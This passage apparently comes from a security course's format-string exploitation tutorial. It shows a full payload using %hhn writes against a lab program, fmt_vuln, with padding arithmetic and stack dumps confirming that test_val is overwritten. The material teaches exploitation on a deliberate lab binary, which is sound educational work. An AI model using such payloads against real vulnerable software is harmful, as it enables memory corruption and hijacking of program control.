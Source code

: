 ``` {.example}
[*] test_val @ 0x804a024 = 0x8040e18
--- STACK main ---
0xbffff694 <ebp+0xc>: bffff724
0xbffff690 <ebp+0x8>: 00000002
0xbffff68c <ebp+0x4>: b7e33a83
0xbffff688 <ebp>: 00000000
0xbffff684 <ebp-0x4>: 00000000
0xbffff680 <ebp-0x8>: 080485e0
0xbffff67c <ebp-0xc>: b7fc4000
0xbffff678 <ebp-0x10>: 08040e18
0xbffff674 <ebp-0x14>: 00000002
0xbffff670 <ebp-0x18>: 080486f5
0xbffff66c <ebp-0x1c>: 080485d3
0xbffff668 <ebp-0x20>: bffff688
```

Next we are writing 0x0e and we need to be writing 0x85, so again, math:

``` {.example}
user@si485H-base:demo$ python -c "print 0x85 - 0x0e + 8"
127
```

And an update of the format string:

``` {.example}
user@si485H-base:demo$ ./fmt_vuln $(printf '\x27\xa0\x04\x08')$(printf '\x26\xa0\x04\x08')$(printf '\x25\xa0\x04\x08')$(printf '\x24\xa0\x04\x08')..%1\$245x.%121\$hhn.%1\$250x.%122\$hhn.%1\$127x.%123\$hhn.%1\$008x.%124\$hhn
Right: '&%$..%1$245x.%121$hhn.%1$250x.%122$hhn.%1$127x.%123$hhn.%1$008x.%124$hhn

Wrong: '&%$..                                                                                                                                                                                                                                             bffff854..                                                                                                                                                                                                                                                  bffff854..                                                                                                                       bffff854..bffff854.

[*] test_val @ 0x804a024 = 0x804858f
--- STACK main ---
0xbffff694 <ebp+0xc>: bffff724
0xbffff690 <ebp+0x8>: 00000002
0xbffff68c <ebp+0x4>: b7e33a83
0xbffff688 <ebp>: 00000000
0xbffff684 <ebp-0x4>: 00000000
0xbffff680 <ebp-0x8>: 080485e0
0xbffff67c <ebp-0xc>: b7fc4000
0xbffff678 <ebp-0x10>: 0804858f
0xbffff674 <ebp-0x14>: 00000002
0xbffff670 <ebp-0x18>: 080486f5
0xbffff66c <ebp-0x1c>: 080485d3
0xbffff668 <ebp-0x20>: bffff688
```
